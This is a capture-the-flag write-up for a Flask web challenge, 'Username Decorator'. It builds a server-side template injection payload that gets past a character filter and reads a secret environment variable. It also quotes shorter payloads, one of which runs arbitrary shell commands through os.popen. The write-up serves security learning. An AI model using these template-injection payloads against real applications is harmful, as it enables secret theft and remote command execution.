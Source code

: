 # Username Decorator
## Description
Author: JW/Mani

My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

For one, I know that I would really love to be the !! JW !!, so I made a website to preview these username changes.

Note: the flag is in an environment variable called FLAG

## Resources
web3.zip  
## Solution
> basic knowledge: we can use `{{ }}` in flask template to eval python code (but without any builtin function and variable beside config, url ... etc provided by flask).  

According to the solution of `Bonus: The Revenge of Checkpass 1`, the first thing pop in my mind is use `().__class__.__bases__[0].__subclasses__()` to access OS and then get the env. So, basically, my goal is to make a payload like this:   
```python
{{ ().__class__.__bases__[0].__subclasses__()[INDEX]().load_module("os").getenv("FLAG") }}
```  
So, here is what I get:  
```
().__class__.__bases__[0].__subclasses__()[107]() = <class '_frozen_importlib.BuiltinImporter'>
().__class__.__bases__[0].__subclasses__()[41](config.values())[-1] = os.getenv("FLAG")
```  
Because we can't put `"` or `'` in input(limited by this re formula `re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username)`), so:  
```
().__class__.__bases__[0].__subclasses__()[41](config.values())[-1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][2])[0] = os
().__class__.__bases__[0].__subclasses__()[41](config.values())[-1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][-7])[1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][-2])[0] = FLAG
```  
Therefore, final payload: `().__class__.__bases__[0].__subclasses__()[107]().load_module(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][2])[0]).getenv(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][-7])[1].split(().__class__.__bases__[0].__subclasses__()[41](config.values())[-1][-2])[0])` for username.  
`{{` and `}}` for prefix and postfix.  

> There are some other very smart and short payloads:  
> `url_for.__globals__.os.environ` by JW  
> `url_for.__globals__.os.__dict__.popen(request.args.file).read()` by daffainfo  
> `config.__class__.from_envvar.__globals__.__builtins__.__import__(request.args.a).getenv(request.args.b)` with two args os and FLAG, by Chris P. Bacon
